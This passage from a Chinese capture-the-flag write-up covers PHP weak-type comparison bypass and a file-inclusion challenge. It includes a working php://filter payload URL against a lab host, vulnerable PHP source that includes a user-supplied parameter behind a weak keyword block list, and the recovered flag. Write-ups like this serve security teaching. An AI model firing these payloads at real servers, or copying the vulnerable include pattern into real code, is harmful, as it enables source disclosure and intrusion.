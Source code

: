 由于php弱类型，`str`在比较时`"123ffwsfwefwf24r2f32ir23jrw923rskfjwtsw54w3"=123`

所以让`key=123`即可绕过比较

payload:

>  http://106.15.207.47:21001/?key=123



## easy_file_include

- 题目描述：-
- 考察点：php文件包含
- 难度：简单
- 分值：200
- 完成人数：7

首先不会，于是[查资料](https://www.jianshu.com/p/6af8e76d22a5)<-拿这个payload试了下可以用：

> http://106.15.207.47:21002/?file=php://filter/read=convert.base64-encode/resource=./index.php

得到源码：

```php
<meta charset="utf8">
<?php
error_reporting(0);
$file = $_GET["file"];
if(stristr($file,"php://input") || stristr($file,"zip://") || stristr($file,"phar://") || stristr($file,"data:")){
	exit('hacker!');
}
if($file){
	include($file);
}else{
	echo '<a href="?file=flag.php">tips</a>';
}
?>
```

好像并没有什么用，直接读`flag.php`发现flag就在注释里...payload如下：

> http://106.15.207.47:21002/?file=php://filter/read=convert.base64-encode/resource=./flag.php

```php
<?php
echo "Can you find out the flag?";
//ACTF{Fi1e_InClUdE_Is_EaSy}
```



## easyHTTP

- 题目描述：-
- 考察点：HTTP协议
- 难度：入门
- 分值：200
- 完成人数：9
